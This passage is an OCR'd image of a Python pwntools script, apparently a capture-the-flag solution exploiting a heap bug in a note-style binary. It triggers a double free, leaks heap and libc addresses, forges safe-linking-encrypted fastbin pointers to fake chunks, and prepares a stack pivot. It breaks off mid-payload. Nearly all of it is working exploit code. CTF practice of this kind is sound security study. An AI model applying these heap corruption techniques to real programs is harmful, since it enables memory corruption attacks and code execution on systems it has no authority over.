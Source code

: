 ```python
delete(b"CS0001")
delete(b"CS1001")

# get heap leak
heap_leak = u64(search(b"CS2001").ljust(8, b"\x00"))
heap_leak = fastbin_decrypt(heap_leak) - 0x3f0
print(hex(heap_leak))
pos1 = heap_leak + 0x980
target1 = heap_leak + 0x9d0

# double free
delete(b"CS2001")

# overwrite fastbin ptr
payload = p64(fastbin_encrypt(pos1, target1))
add(b"CS0001", 0x70, payload)

payload = flat(
    0x0, 0x0,
    0x0, 0x0,
    0x0, 0x0,
    0x0, 0x0,
    0x0, 0x0,
    0x0, 0x81, # to fake a fastbin chunk here
    fastbin_encrypt(heap_leak + 0x9e0, 0), 0x0,
)

# get 3 more to reach fake chunk
for i in range(3):
    add(f"CS100{i}".encode(), 0x70, payload)

payload = flat(
    0x0, 0x0,
    0x0, 0x31,
    0xdeadbeef, 0x0,
    0x0, 0xcafebabe,
    0x0, 0x31,
    0x1ffffde29, 0x0,
    # *right, *data
    heap_leak + 0xd00, heap_leak + 0xb20, # unsorted leak will be here later
)
add(b"CS2000", 0x70, payload)

# make new smallbin chunks and free them for unsorted leak
for i in range(8):
    add(f"CS999{i}".encode(), 0xf0, b"a")
for i in range(7, -1, -1):
    delete(f"CS999{i}".encode())

libc_leak = u64(search(b"\xff\xff1337").ljust(8, b"\x00")) - 0x203b20
print(hex(libc_leak))
stack_leak_pivot = libc_leak + 0x2046e0
print(hex(stack_leak_pivot))

# stuff that didn't work :(
# global_max_fast = libc_leak + 0x1d94a0
# fake_chunk = libc_leak + 0x1d2340
# exit_funcs = libc_leak + 0x1d42f0

# set up a new double free
target2 = heap_leak + 0x1d40
pos2 = heap_leak + 0x1b20
payload = flat(
```